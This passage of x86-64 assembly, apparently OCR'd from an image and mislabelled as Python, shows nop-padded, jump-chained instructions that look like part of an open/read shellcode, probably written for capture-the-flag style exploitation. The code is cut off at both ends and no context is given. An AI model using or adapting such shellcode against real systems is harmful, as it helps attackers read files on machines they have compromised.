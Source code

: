 ```python
        nop
        nop
        nop
        nop
        nop
        nop
    sc7:
        add rax,2
        syscall
        jmp sc8
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
    sc8:
        mov rdi,rax
        nop
        nop
        nop
        jmp sc9
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
    sc9:
        mov rsi,rcx
        nop
        nop
        nop
        jmp sc10
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
    sc10:
        xor rdx,0x50
        syscall
        jmp sc11
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
    sc11:
        add rdi,1
        nop
        nop
        jmp sc12
```